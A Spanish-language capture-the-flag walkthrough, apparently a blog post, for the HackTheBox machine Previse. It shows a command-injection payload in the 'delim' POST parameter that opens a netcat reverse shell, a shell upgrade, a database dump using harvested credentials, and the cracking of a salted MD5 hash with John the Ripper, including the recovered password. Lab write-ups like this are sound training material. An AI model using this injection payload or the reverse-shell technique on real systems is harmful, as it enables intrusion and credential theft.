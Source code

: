 Capturando con **`BurpSuite`** la petición tras darle al boton **SUBMIT** vemos que está formada por el campo con nombre **`delim`** y su valor.

![BurpSuite](/assets/images/hackthebox/machines/previse/burp6.png)

Volvamos a usar **`BurpSuite`** para lograr inyectar la shell reversa usando el delimitador **`comma`** mediante el método POST.
Antes de enviarla me pongo a la escucha por el puerto **9999** con netcat (es el que yo uso habitualmente).

```
delim=comma%26nc+-e+/bin/bash+10.10.14.253+9999
```

```console
p3ntest1ng:~$ nc -nlvp 9999
```

Vamos a mejorar un poco la shell para mayor comodidad, escribiendo lo siguiente:

```console
p3ntest1ng:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Shell](/assets/images/hackthebox/machines/previse/shell.png)

Anteriormente obtuvimos credenciales de la base de datos analizando el archivo **`config.php`** así que vamos a echar un vistazo a la base de datos.

```console
p3ntest1ng:~$ mysql -h localhost -u root -p previse
```

![Database mySQL](/assets/images/hackthebox/machines/previse/dbconnection.png)

![Database mySQL](/assets/images/hackthebox/machines/previse/dbdump.png)

Vemos las credenciales del usuario '**m4lwhere**' en forma de hash así que toca crackear la contraseña.
Pero antes vamos a fijarnos en un detalle del hash ya que es importante:

En mi terminal, el caracter detrás del segundo $ se convierte, perdiendo su identidad. Esto se debe a que estamos ante un **`Salted Hash`**
El hash correcto es como sigue y lo vamos a romper con **`John The Ripper`** (esto tardará un rato):

```console
p3ntest1ng:~$ echo "$1$🧂llol$DQpmdvnb7EeuO6UaqRItf." > hashfile
p3ntest1ng:~$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hashfile

Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
1g 0:00:18:31 DONE (2022-01-08 20:44) 0.000899g/s 6670p/s 6670c/s 6670C/s ilovecody31..ilovecody..
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

